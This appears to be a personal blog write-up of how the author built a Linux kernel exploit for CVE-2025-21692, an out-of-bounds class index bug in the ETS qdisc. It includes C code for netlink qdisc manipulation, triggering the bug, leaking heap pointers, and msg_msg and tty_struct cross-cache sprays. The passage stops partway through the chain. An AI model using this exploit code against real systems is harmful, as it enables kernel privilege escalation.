


# Intro

Hi again. Been a minute. 
I've been a perpetual novice in the realm of kernel exploitation for far too long, besides a few older CTF challenges I'm almost completely bereft of experience in this area, so I finally decided to start studying some ndays.

I ended up picking a couple bugs, first, a VSOCK UAF - CVE-2025-21756. I chose this to study as it had a (really good, thanks Hoefler) accompanying blog post which I could follow through with and fall back on when I got stuck. I ended up trying to exploit this bug in a different way than was performed in [Hoefler's post](https://hoefler.dev/articles/vsock.html) to test myself. Instead of using pipes, I wanted to use `msg_msg`. 

This added another layer of difficulty which in turn demanded the use of another bug, [CVE-2025-21692](https://nvd.nist.gov/vuln/detail/CVE-2025-21692). This was definitely the most educational part of the process as there was no public exploit for this bug, except a few pocs [demonstrating](https://github.com/Bam0x7/linux-kernel-cve-exploit/blob/main/CVE-2025-21692/poc.c) it. I ended up leveraging these bugs together initially, but decided to write an exploit using only 21692.

In this post I'll go over the process I went through turning this bug into a valuable write primitive, then turning that into RCE. I'll go over stuff I learned, and difficulties encountered along the way.

But before we start, there's some "required" knowledge you'll probably want to know beforehand:
- Basic understanding of cross cache and all that entails
	- [Kernel heap layout and structure, kmalloc caches, pages etc](https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/#crossing-the-cache-boundary). 
	- The more complex stuff we need to do gets explained.
- Understanding of kernel security mechanisms
	- [KPTI, SMEP, SMAP, etc](https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/).

The exploit can be found [here](https://github.com/volticks/CVE-2025-21692-poc) so you can follow along. Lets go.

## Some background on qdiscs

Packet scheduling isn't something I've ever really thought about, despite using Linux for years as a (somewhat) power user (stock ubuntu so I can google all the errors). But if we need to send packets around, there intuitively needs to be some way to stagger the flow, organise, or otherwise schedule them. This is what Qdiscs are for. 

Yes, I did think it had something to do with discs when I first saw the term, it does not, however (at least i think so). Instead, a Qdisc is a queueing discipline. Qdisc's wrap around network interfaces and provide different ways to manage packets. There are many kinds of qdisc's, some classful and others not, with classful qdiscs allowing traffic to be sorted and filtered into classes.

In order to classify traffic, "filters" are consulted, and are called from within the qdisc itself. These arent too important to understand for this bug, though.

Qdiscs are referred to by a handle - heres a simple example of creating and managing a qdisc:

```sh
root@pwn:~# tc qdisc add dev lo root netem delay 100ms
root@pwn:~# tc qdisc list
qdisc netem 8001: dev lo root refcnt 2 limit 1000 delay 100ms
root@pwn:~# tc qdisc delete dev lo root
root@pwn:~# tc qdisc list
root@pwn:~# tc qdisc add dev lo root handle 1: netem delay 100ms
root@pwn:~# tc qdisc list
qdisc netem 1: dev lo root refcnt 2 limit 1000 delay 100ms
```

The first command adds a classless netem qdisc to the lo network device, specifying a delay of 100ms. This is the root qdisc, and is the first in the "tree" of qdiscs for a given interface. From here we can list discs, among other things. We can also assign a handle to a qdisc at creation, but one will be assigned for us if not. The netem qdisc specifically allows us to add a delay to outgoing packets on an interface. This adds [100ms + 10ms](https://man7.org/linux/man-pages/man8/tc-netem.8.html#EXAMPLES) delay to each packet.

Qdiscs can also have children/leaves. With classful qdiscs it is possible to filter traffic into one class then have a different qdisc manage it from there. 

## The Bug

Enter stage left, CVE-2025-21692. 
The bug in question is present in the ETS (Enhanced Transmission Selection) qdisc. ETS is classful and gets pretty complicated, as you can imagine. The bug, by comparison is very simple.

```c
static struct ets_class *
ets_class_from_arg(struct Qdisc *sch, unsigned long arg)
{
	struct ets_sched *q = qdisc_priv(sch);
+   if (arg == 0 || arg > q->nbands)
+   return NULL;
	return &q->classes[arg - 1];
}
```

As the patch hints, the `arg` class id can be 0, and if it is we can probably underflow and read OOB. Theres also a chance we can go higher, if we somehow feed this function an id greater than `nbands`.

ETS has a number of bands/classes. Some bands are strict, and others are bandwidth-sharing with strict bands being consulted first when dequeuing packets from the interface, if no packet was dequeued from the strict bands then the others are tried. Bandwidth sharing bands are assigned a "deficit counter" (used as part of the ["deficit round robin" algorithm](https://en.wikipedia.org/wiki/Deficit_round_robin)) which is initialized to a "quantum" element, __quant__. Keep this in mind as the __quant__ value of a class is probably one of the most important parts of the exploitation process -- other than the bug, probably.

I'll not explain the algorithm and its implementation as it didn't turn out to be useful or necessary for the exploit. This may or may not be me dodging writing EVEN MORE STUFF but regardless, all that's needed to know is each band is responsible for an amount of the link rate - the higher the __quant__ the more it will handle, to enable this sent packets are enqueued via qdisc specific logic into the interface, and received are dequeued triggering different logic in the qdisc assigned.  

If you open the [man page for ets](https://man7.org/linux/man-pages/man8/tc-ets.8.html) you may notice a small, interesting section in the description.
```
       The minor number of classid to use when referring to a band is the
       band number increased by one. Thus band 0 will have classid of
       major:1, band 1 that of major:2, etc.
```
So to get the real band number from a supplied classid, we have to subtract 1. This *could* indicate just why the bug is here or I could just be throwing stuff at the wall until it sticks, perhaps.

As a sidenote, the kernel version used to make the exploit was 6.6.67, this was due to me using the same kernel to work with through hoefler's bug. At this point the ets bug had been patched, so I did have to edit my kernel source - just commenting out the check and return null lines. 

## How do we get there 

How do we interact with the qdisc so we can get a situation where we have the class id underflow/overflow? As seen previously, there is the `tc` command line utility provided by [iproute](https://tldp.org/HOWTO/Traffic-Control-HOWTO/software.html), but we probably want a way of doing this without having to spawn an additional process every time we want to interact with qdiscs -- trust me here, as this is the way I had my exploit stitched together for a while. The underlying code for tc uses [netlink sockets](https://man7.org/linux/man-pages/man7/netlink.7.html), these provide an interface which enables us to query and edit network interfaces and other things such as `qdisc`s. This setup process is quite easy.

```c
int setup_rtnet(struct sockaddr_nl *src_addr, struct sockaddr_nl *dest_addr) {

  int sock_fd = socket(PF_NETLINK, SOCK_RAW, NETLINK_ROUTE);
  if (sock_fd < 0) {
    return -1;
  }

  memset(src_addr, 0, sizeof(*src_addr));
  src_addr->nl_family = AF_NETLINK;
  src_addr->nl_pid = getpid(); /* self pid */

  if (bind(sock_fd, (struct sockaddr *)src_addr, sizeof(*src_addr)) < 0) {
    perror("setup_rtnet bind");
    exit(-1);
  }

  memset(dest_addr, 0, sizeof(*dest_addr));
  dest_addr->nl_family = AF_NETLINK;
  dest_addr->nl_pid = 0;    /* For Linux Kernel */
  dest_addr->nl_groups = 0; /* unicast */
  return sock_fd;
}
```

Unfortunately for us, interacting with netlink in the way we need to [requires `CAP_NET_ADMIN`](https://elixir.bootlin.com/linux/v6.6.75/source/net/core/rtnetlink.c#L6390) (because we need to do more than `RTNL_KIND_GET`), so we will unfortunately have to have unprivileged namespaces enabled. Dubious indeed. 

When that devastating news has been grieved over, we can start sending and receiving messages with the kernel. Netlink messages consist of one or many consecutive `struct nlattr`s. 
```c
/*
 *  <------- NLA_HDRLEN ------> <-- NLA_ALIGN(payload)-->
 * +---------------------+- - -+- - - - - - - - - -+- - -+
 * |        Header       | Pad |     Payload       | Pad |
 * |   (struct nlattr)   | ing |                   | ing |
 * +---------------------+- - -+- - - - - - - - - -+- - -+
 *  <-------------- nlattr->nla_len -------------->
 */

struct nlattr {
	__u16           nla_len;
	__u16           nla_type;
};
```

As the comment says, the payload follows immediately. Length of these messages is padded out to `NLMSG_ALIGN(len_of_msg)`. Which for us just means they have to be 4 byte aligned. To get a better idea of what these messages look like, follows is sample code showing how a qdisc can be created through chaining `nlattr`s.

### Netlink example

```c
  // ...
  memset(&msg, 0, sizeof(msg));
  nlh = (struct nlmsghdr *)malloc(NLMSG_SPACE(MAX_PAYLOAD));
  memset(nlh, 0, NLMSG_SPACE(MAX_PAYLOAD));
  nlh->nlmsg_len = NLMSG_SPACE(MAX_PAYLOAD);
  nlh->nlmsg_pid = getpid();
  nlh->nlmsg_type = RTM_NEWQDISC;
  nlh->nlmsg_flags = NLM_F_REQUEST | NLM_F_CREATE;
  ```
  
We allocate space for the nlmsg and header, specifically requesting the max space -- which we never get even close to using (wasteful ikr). The `NLMSG_SPACE` macro ensures the size reserved is aligned correctly for our chain of messages. We then fill in fields, specifying in `type` that we want to create a new qdisc. We then fill in a couple of flag fields, `NLM_F_CREATE` specifying that yes we do in fact want an entirely new qdisc, and dont want to replace one already existing, because we dont want your dusty ol' disc. The netlink manual is very very specific about the use of `NLM_F_REQUEST`:

```
       NLM_F_REQUEST           Must be set on all request messages.
```

So we'll follow along, I guess >:(. Next we get a bit more specific to the task at hand.

  ```c
  struct tcmsg tc;
  memset(&tc, 0, sizeof(tc));
  // Handle is formatted with qdisc id at start, 1 *should* be root qdisc.
  uint32_t clid = 0x0;
  // [2]
  tc.tcm_family = TCA_UNSPEC;
  tc.tcm_handle = (hnd << 16) | clid;
  tc.tcm_parent = g_parent;
  tc.tcm_ifindex = idx;
  g_parent = TC_H_ROOT;
  memcpy(NLMSG_DATA(nlh), &tc, sizeof(tc));
  ```

`tcmsg`s as you can imaging are for interfacing with traffic control, so fairly important. `tcm_handle` needs to match the handle of an existing qdisc normally, but since we're adding a new one it can be whatever we want. `ifindex` references the interface we are operating on -- loopback for us, and `parent` is simply the handle of our great progenitor, which is `TC_H_ROOT` for us as we have no mum. Real chicken and egg situation there.

  ```c
  char buf[0x300] = {0};
  // [3]
  struct nlattr *attr = (struct nlattr *)buf;
  attr->nla_type = TCA_KIND;
  attr->nla_len = NLA_HDRLEN + 3;
  strcpy(&attr[1], "ets");
  attr = (struct nlattr *)((uint8_t *)(attr) + NLA_ALIGN(attr->nla_len));
  // [4]
  attr->nla_type = TCA_OPTIONS | NLA_F_NESTED;
  // Will be filled in later
  attr->nla_len = -1;
  struct nlattr *options = attr;
  attr = &attr[1];

  attr->nla_type = TCA_ETS_NBANDS;
  attr->nla_len = NLA_HDRLEN + 1;
  *(uint8_t *)(&attr[1]) = 8;
  totlen += NLA_ALIGN(sizeof(*attr) + attr->nla_len);
  ```

Here comes the real meat & potatoes; our attributes. First up is qdisc kind, of course ets. Then `TCA_OPTIONS` which stores qdisc specific `nlattr` fields in nested within, the first field being `nbands` which in our case is sort of arbitrary as nothing we do depends on the number of bands, as long as we have at least 1, anyway. 

  ```c
  attr = (struct nlattr *)((uint8_t *)(attr) + NLA_ALIGN(attr->nla_len));

  // [5]
  attr->nla_type = TCA_ETS_PRIOMAP | NLA_F_NESTED;
  attr->nla_len = NLA_HDRLEN;
  struct nlattr *priomap = attr;
  attr = &attr[1];

  int start_band = 7;
  while (start_band >= 0) {
    attr->nla_type = TCA_ETS_PRIOMAP_BAND;
    attr->nla_len = NLA_HDRLEN + 1;
    *(uint8_t *)(&attr[1]) = start_band;
    priomap->nla_len += NLA_ALIGN(attr->nla_len);
    attr = (struct nlattr *)((uint8_t *)(attr) + NLA_ALIGN(attr->nla_len));
    start_band--;
  }
  ```

What follows is the priomap for each band, simply a nested list of uint8. 
  
  ```c
  // [6]
  totlen += NLA_ALIGN(priomap->nla_len);
  options->nla_len = NLA_ALIGN(totlen);
  memcpy(NLMSG_DATA(nlh) + NLMSG_ALIGN(sizeof(tc)), buf, sizeof(buf));
  // ...
```

Finally we make sure the total length is correct and we are ready to go! Copying the data into the nlmsg payload after the tcmsg. This then gets sent away to the kernel. All netlink communications we do follow this pattern, seems easy, but oh my god did I have trouble getting the sizes and alignment right, hence the extremely ugly pointer arithmetic - skill issue.

### That's what I call REAL Quantum Computing

After the qdisc is added, triggering the bug is also quite simple. Sending a `nlmsg` of type `RTM_NEWTCLASS` and flags `NLM_F_REQUEST | NLM_F_CREATE | NLM_F_ECHO` (see `get_quant` function in the exploit) leads us down the following call chain to `ets_class_change`.

```
netlink_sendmsg
	netlink_unicast
		rtnetlink_rcv
			netlink_rcv_skb
				rtnetlink_rcv_msg
					tc_ctl_tclass
						ets_class_change
```

Here the buggy utility function makes an appearance at [1]:
```c
static int ets_class_change(struct Qdisc *sch, u32 classid, u32 parentid,
			    struct nlattr **tca, unsigned long *arg,
			    struct netlink_ext_ack *extack)
{
	// [1]
	struct ets_class *cl = ets_class_from_arg(sch, *arg);
	struct ets_sched *q = qdisc_priv(sch);
	struct nlattr *opt = tca[TCA_OPTIONS];
	struct nlattr *tb[TCA_ETS_MAX + 1];
	unsigned int quantum;
	int err;

	/* Classes can be added and removed only through Qdisc_ops.change
	 * interface.
	 */
	if (!cl) {
		NL_SET_ERR_MSG(extack, "Fine-grained class addition and removal is not supported");
		return -EOPNOTSUPP;
	}

	if (!opt) {
		NL_SET_ERR_MSG(extack, "ETS options are required for this operation");
		return -EINVAL;
	}

	err = nla_parse_nested(tb, TCA_ETS_MAX, opt, ets_class_policy, extack);
	if (err < 0)
		return err;

	if (!tb[TCA_ETS_QUANTA_BAND])
		/* Nothing to configure. */
		return 0;

	if (ets_class_is_strict(q, cl)) {
		NL_SET_ERR_MSG(extack, "Strict bands do not have a configurable quantum");
		return -EINVAL;
	}

	err = ets_quantum_parse(sch, tb[TCA_ETS_QUANTA_BAND], &quantum,
				extack);
	if (err)
		return err;

	sch_tree_lock(sch);
	// [2]
	cl->quantum = quantum;
	sch_tree_unlock(sch);

	ets_offload_change(sch);
	return 0;
}
```

You may have already identified and flagged [2]. Indeed, __quant__ my beloved is back. Writing this here onto the underflowed class could be quite... Good? Depending on what `cl->quantum` overlaps with. So if we underflow `q->classes`, what do we actually end up accessing? Lets see the `struct ets_sched` qdisc structure where `classes` is contained.

```c
/* offset      |    size */  type = struct ets_sched {
/*      0      |      16 */    struct list_head {
/*      0      |       8 */        struct list_head *next;
/*      8      |       8 */        struct list_head *prev;

                                   /* total size (bytes):   16 */
                               } active;
/*     16      |       8 */    struct tcf_proto *filter_list;
/*     24      |       8 */    struct tcf_block *block;
/*     32      |       4 */    unsigned int nbands;
/*     36      |       4 */    unsigned int nstrict;
/*     40      |      16 */    u8 prio2band[16];
/* XXX  8-byte hole      */
/*     64      |    1280 */    struct ets_class classes[16];

                               /* total size (bytes): 1344 */
                             }
```

`sizeof(struct ets_class)` is 80 bytes, so that puts us exactly 16 bytes before the start of `ets_sched` (`ets_sched.classes` offset is 64 bytes). Looking at `ets_class` we can see...

```c
struct ets_class {
/*      0      |      16 */    struct list_head {
/*      0      |       8 */        struct list_head *next;
/*      8      |       8 */        struct list_head *prev;

                                   /* total size (bytes):   16 */
                               } alist;
/*     16      |       8 */    struct Qdisc *qdisc;
/*     24      |       4 */    u32 quantum;
/*     28      |       4 */    u32 deficit;
/*     32      |      16 */    struct gnet_stats_basic_sync {
/*     32      |       8 */        u64_stats_t bytes;
/*     40      |       8 */        u64_stats_t packets;
/*     48      |       0 */        struct u64_stats_sync {
                                       <no data fields>

                                       /* total size (bytes):    0 */
                                   } syncp;

                                   /* total size (bytes):   16 */
                               } bstats;
/*     48      |      20 */    struct gnet_stats_queue {
/*     48      |       4 */        __u32 qlen;
/*     52      |       4 */        __u32 backlog;
/*     56      |       4 */        __u32 drops;
/*     60      |       4 */        __u32 requeues;
/*     64      |       4 */        __u32 overlimits;

                                   /* total size (bytes):   20 */
                               } qstats;
/* XXX 12-byte padding   */

                               /* total size (bytes):   80 */
                             }
```

`quantum` is at offset 24. `-16 + 24 = 8` so we are writing `quantum` to the lower 4 bytes of `active->next`. Sick. Even better news is that we control quant, as it is taken directly from our message. Next step: what does this `active` get used for and what sort of damage can we do with this?

## Speculating 

*insert image of L from death note here*

Theres quite a few directions this could go now, Ctrl+F for `active` in [the ets source file](https://elixir.bootlin.com/linux/v6.6.75/source/net/sched/sch_ets.c) and have some fun. My brain immediately beelined to the enqueuing and dequeuing process, and so we arrive at our inevitable destination.

```c
static int ets_qdisc_enqueue(struct sk_buff *skb, struct Qdisc *sch,
			     struct sk_buff **to_free)
{
	unsigned int len = qdisc_pkt_len(skb);
	struct ets_sched *q = qdisc_priv(sch);
	struct ets_class *cl;
	int err = 0;
	bool first;

	cl = ets_classify(skb, sch, &err);
	if (!cl) {
		if (err & __NET_XMIT_BYPASS)
			qdisc_qstats_drop(sch);
		__qdisc_drop(skb, to_free);
		return err;
	}

	first = !cl->qdisc->q.qlen;
	err = qdisc_enqueue(skb, cl->qdisc, to_free);
	if (unlikely(err != NET_XMIT_SUCCESS)) {
		if (net_xmit_drop_count(err)) {
			cl->qstats.drops++;
			qdisc_qstats_drop(sch);
		}
		return err;
	}
	
	// [1]
	if (first && !ets_class_is_strict(q, cl)) {
		list_add_tail(&cl->alist, &q->active);
		cl->deficit = cl->quantum;
	}

	sch->qstats.backlog += len;
	sch->q.qlen++;
	return err;
}
```

After classifying a packet we arrive at [1]. If our packet is the first to be enqueued on this class/band's qdisc, and the band isnt strict (normal bandwidth sharing band) we call into `list_add_tail` with our (potentially) corrupt `active->next`. So what it do? Briefly:

```c
// new = &cl->alist
// head = &q->active
static inline void list_add_tail(struct list_head *new, struct list_head *head)
{
	__list_add(new, head->prev, head);
}
// ...
// new = &cl->alist
// prev = q->active->prev
// next = &q->active
static inline void __list_add(struct list_head *new,
			      struct list_head *prev,
			      struct list_head *next)
{
	// [1]
	if (!__list_add_valid(new, prev, next))
		return;

	next->prev = new;
	new->next = next;
	new->prev = prev;
	// [2] prev->next = new
	WRITE_ONCE(prev->next, new);
}
```

I did end up having to recompile a kernel with list hardening (CONFIG_LIST_HARDENED + CONFIG_DEBUG_LIST) turned off so we dont get destroyed at [1] - my default ubuntu kernel config had this disabled so I generally mirrored most of the important stuff to my target. Anyway.

So basically we end up doing `active->prev->next = &cl->alist`, which is perfect for us (`active->prev==active` atp). Now, how do we trigger. Very very simple, just send a packet to the interface!

```c
// Just send a packet to localhost
void trigger_write() {
  int s = socket(AF_INET, SOCK_DGRAM, 0);
  struct sockaddr_in saddr = {0};
  saddr.sin_family = AF_INET;
  saddr.sin_port = 1234;
  inet_pton(AF_INET, "127.0.0.1", &saddr.sin_addr);
  sendto(s, "lol", 3, 0, &saddr, sizeof(saddr));
  close(s);
}
```

Port doesn't matter here, as long as its being sent in the vague direction of lo. Another use of this lets us write back the value of `cl->quantum` over netlink, so instead of overwriting it we can leak it first. Looking back at `ets_class_change` there's this check:

```c
	if (!tb[TCA_ETS_QUANTA_BAND])
		/* Nothing to configure. */
		return 0;
```

If we *don't* set `TCA_ETS_QUANTA_BAND` in the message attributes, we don't overwrite the quantum value. So where is this return gonna take us back to? The call to `ets_class_change` originates in `tc_ctl_tclass` [1].
```c
	// ...
	// [1]
	if (cops->change)
		err = cops->change(q, clid, portid, tca, &new_cl, extack);
	if (err == 0) {
		// [2]
		tclass_notify(net, skb, n, q, new_cl, RTM_NEWTCLASS, extack);
		/* We just create a new class, need to do reverse binding. */
		if (cl != new_cl)
			tc_bind_tclass(q, portid, clid, new_cl);
	}
	// ...
```

Given we return 0, we next call into [2]. `tclass_notify` isnt too important, just know it sends class data back to us over rtnetlink, whats more important is what fills in this data. `tc_fill_tclass` is called from inside `tclass_notify` where it constructs a `tcmsg` to send our way. As part of this we eventually dump some information about our class:

```c
	// ...
	if (nla_put_string(skb, TCA_KIND, q->ops->id))
		goto nla_put_failure;
	if (cl_ops->dump && cl_ops->dump(q, cl, skb, tcm) < 0)
		goto nla_put_failure;
	// ...
```

`cl_ops->dump` is `ets_class_dump` in this case. And of course, this fills in the `cl->quantum` value - aka 4 bytes of `active->next`.

```c
	// ...
	if (!ets_class_is_strict(q, cl)) {
		if (nla_put_u32(skb, TCA_ETS_QUANTA_BAND, cl->quantum))
			goto nla_put_failure;
	}
	// ...
```

So getting a kmalloc-2k leak is easy, all we need to do is rummage through the message we get to find it. And it doesnt matter that its only 4 lower bytes because __thats all we can write back into the pointer anyway__. 

So now we have that out of the way, how do we proceed? What primitives can be get from this?

## Sploit ideas

So we have a pretty decent primitive, we can write a pointer to our qdisc allocation in kmalloc-2k ANYWHERE in the kmalloc heap. Pretty decent starting point. However bcuz I am kernel exp noob this took an embarrassingly long time. The first problem to take care of is leaks, we already have kmalloc-2k, but we'll need kernel text and more heap leaks, ideally. My first strategy here was trying to abuse `ets_qdisc_dump`:

```c
static int ets_qdisc_dump(struct Qdisc *sch, struct sk_buff *skb)
{
	struct ets_sched *q = qdisc_priv(sch);
	struct nlattr *opts;
	struct nlattr *nest;
	int band;
	int prio;
	int err;

	// ...
	// [1]
	if (q->nbands > q->nstrict) {
		nest = nla_nest_start(skb, TCA_ETS_QUANTA);
		if (!nest)
			goto nla_err;
		// [2]
		for (band = q->nstrict; band < q->nbands; band++) {
			if (nla_put_u32(skb, TCA_ETS_QUANTA_BAND,
					q->classes[band].quantum))
				goto nla_err;
		}

		nla_nest_end(skb, nest);
	}

	// ...
	
	return nla_nest_end(skb, opts);

nla_err:
	nla_nest_cancel(skb, opts);
	return -EMSGSIZE;
}
```

Given we have a leak of the qdisc already, its feasible we can reliably write anywhere within it and its contained structures. If we were to write a pointer value into `nbands`, it would be treated as a massive value. Then when we try to dump the qdisc, we would be able to read as many `quantum` values as we want from adjacent memory [2]. This ended up working quite well for an old test exploit I made with a different bug, however I didnt end up using this due to some.... Complications that arose when writing to and around `nbands`.

I found that trying to delete or reset the qdisc state after corrupting nbands resulted in a crash, the culprits being `ets_qdisc_reset` and/or `ets_qdisc_destroy`.

```c
static void ets_qdisc_reset(struct Qdisc *sch)
{
	struct ets_sched *q = qdisc_priv(sch);
	int band;

	// [1]
	for (band = q->nstrict; band < q->nbands; band++) {
		if (q->classes[band].qdisc->q.qlen)
			list_del(&q->classes[band].alist);
	}
	for (band = 0; band < q->nbands; band++)
		qdisc_reset(q->classes[band].qdisc);
}

static void ets_qdisc_destroy(struct Qdisc *sch)
{
	struct ets_sched *q = qdisc_priv(sch);
	int band;

	ets_offload_destroy(sch);
	tcf_block_put(q->block);
	// [2]
	for (band = 0; band < q->nbands; band++)
		qdisc_put(q->classes[band].qdisc);
}
```

Both of these use `nbands` to free or delete or reset class qdiscs and the class `alist`s, and performing this OOB leads to a null deref in my experience. This is especially problematic because as we'll see soon a fundamental part of our write primitive involves resetting the qdisc state so we can pass the `first` check in `ets_qdisc_enqueue` and trigger the primitive. With no way (I found) to restore the nbands variable to its sane state I moved on to some other method that didn't require corrupting the qdisc - at least not anymore than we already do. That's not to say there isn't a way to do this using the corrupted nbands -- its used quite a bit, and it could be a good exercise if you're in a similar place to me and looking for a bug to POC.

### Far too many cross cache attacks

My next port of call as it appears to be for many a' exploit dev is cross cache. What if we were to write the `alist` ptr somewhere in memory, and then free the qdisc? Since the ptr still refers to the qdisc allocation this would cause a UAF (lol). So what can we do? This is something I especially struggled with due to the yawning abyss of possible approaches here: a qdisc comes from kmalloc-2k, and we have its address, so what do we do? Theres a... __teeny tiny lil__ amount of potential objects we can use, just enough to drive you absolutely insane. When in doubt, cross cache in to a cg cache, baby.

I'll not explain cross cache here, but there's a lot of [really really great material](https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/#crossing-the-cache-boundary) that covers the process. I hate to banish you to another blog and lose you forever but give some of it a read and come back later (please). You'll thank me.

Doing this cross cache would upgrade our kmalloc-2k leak to a kmalloc-cg-2k leak. Using this we can do some funny stuff. One of the first things that occurred to me is writing our pointer into the `next` segment of a `msg_msg`. So the process would be:

- Add a qdisc, get a leak for this allocation
- Release and cross cache the qdisc page to cg-2k
- Add yet another qdisc
	- So we can use the write primitive
- Write the pointer into one of the `msg_msg->next` from our cross cache spray.
- Receive the message.
- Profit???

It wasn't gonna be that easy, though. Given the properties of `alist` and the current state of the qdisc, the pointer we write just points to itself. So even if we `MSG_COPY` a message (non-destructively fetching it from the queue rather than freeing it) we will still crash as `copy_msg` simply copies data while the `next` is populated. Bleh.

So the next idea I had was to release the other qdisc as well and replace that with another object, making the ptr written into `msg_msg->next` stale. Given the range of possibilities with kmalloc-2k this again kind of drove me insane. So... Cross cache party time again? I cant really say my exploit is optimal as it probably would've been easier to systematically search for an object in 2k which contains a kernel image ptr and NOT cross cache again, but I aint changing it now :P. Good luck.

### Struct'ive feedback

I'm just putting whatever the hell I want as the section headers now. Mhm.

So what did I have in mind? `tty_struct`s. This is [pretty well documented](https://github.com/smallkirby/kernelpwn/blob/master/technique/tty_struct.md), but the gist is they have some juicy pointers in we can use to get the kernel base address. `sizeof(struct tty_struct)` is 0x290 (656), so these will go squarely in the kmalloc-cg-1k cache. One small problem with this is we cant really cross cache spray to reclaim our page with `tty_struct` as there seems to be a pretty sensible (god i know) limit on the amount of these we can allocate. Solution? Spray `msg_msg` instead, of course. There's not a single problem that cant be solved with excessive spraying of `msg_msg`.

The idea is:
1. Create another qdisc, get leaks from it (again)
2. Spray `msg_msg` to get the slab where our controlled msg segment was
	- Now we entirely control the `next` segment of the original message with arbitrary data
3. Loop through the sprayed messages until the received (`MSG_COPY`d, of course) data in the `next` segment matches what we sprayed in 2.
	- Now we've found our controlled message
4. Free the controlled message
5. Spray `tty_struct`s
6. With any luck, the `next` segment ptr of our old `msg_msg` now points into a `tty_struct`.

This worked pretty well for the most part - excluding an alarming caveat that came later on. The code for this spraying and reclaiming follows.

```c
  // Writing the pointer and stuff...
  // ...
  for (i = 0; i < MSG_SPRAY / 2; i++) {
    // Release and immediately reclaim the messages we are sending.
    // This means when we break we free the correct msg and can then
    // just grab it and do whatever we want with it being free.
    mrecv = recv_msg(qid[i], COMP_SZ_MAX, 0, 0);
    if (mrecv[8 + 1] != '\x41') {
      printf("[!] Found: %d....\n", i);
      dumph(mrecv + 8, 0x8, ' ');
      qdisc_ptr_leak = *(uint64_t *)(&mrecv[8]);
      break;
    }
    send_msg(qid[i], COMP_SZ_MAX, msg, i + 1);
    free(mrecv);
  }

  if (!qdisc_ptr_leak) {
    // We will likely just crash here regardless lol
    printf("[!] Cross cache failed lol. Retry\n");
    return;
  }
  free(mrecv);

  // ...
  
  // Hit the `next` ptr of controlled msg
  do_ptr_write(idx, quant - 0x180 + 0x20, 1, sock_fd, &dest_addr);
  
  // ...
  // Cross cache stuff
  // ...
  
  // Need to be able to identify each msg
  {
    int msgsz = NEW_SPRAY_SZ;
    char *msgtxt = msg1;
    int spray_n = MSG_SPRAY * 2;
    int *qstore = qid1;
    int qidn = 0;
    int ret = -1;
    socklen_t len = 0;
    char mbuf[msgsz + MSGSZ];
    struct msgbuf *msg = (struct msgbuf *)mbuf;
    msgsz -= (MSGSZ);
    memcpy(msg->mtext, msgtxt, msgsz);
    for (int j = 0; j < spray_n; j++) {
      msg->mtype = MSG_SPRAY + j + 1;
      qidn = qstore[j];
      *(uint64_t *)(&msg->mtext[0x188 - 0x30]) = MSG_SPRAY + j + 1;
      if (msgsnd(qidn, msg, msgsz, 0) < 0) {
        printf("j: %d\tqid: %d\tmsgsz: 0x%x\n", j, qidn, msgsz);
        perror("msgsnd lol");
        exit(-1);
      }
    }
  }

  printf("[!] Receiving...");
  char *mrecv1 = recv_msg_CPY(qid[i], NEWCOMPSZ, 1, 0);
  uint64_t seg_idx = *(uint64_t *)(&mrecv1[MSGMSGSZ + 8]);

  printf("[*] Controlled seg idx: 0x%lx -> 0x%lx\n", seg_idx,
         seg_idx - (MSG_SPRAY + 1));

  seg_idx -= (MSG_SPRAY + 1);
  free(mrecv1);
  mrecv1 = recv_msg(qid1[seg_idx], NEW_SPRAY_SZ, 0, 0);
  dumph(mrecv1, 0x10, ' ');
  free(mrecv1);

  // Need moar raaaagh
  int spray_socks[0x200 - 4 - 1 + 0x50];
  for (int i = 0; i < sizeof(spray_socks) / sizeof(spray_socks[0]); i++) {
    if ((spray_socks[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY)) <= 2) {
      printf("i: %d\n", i);
      perror("tty_struct spray open");
      exit(-1);
    }
  }

  mrecv1 = recv_msg_CPY(qid[i], NEWCOMPSZ, 1, 0);
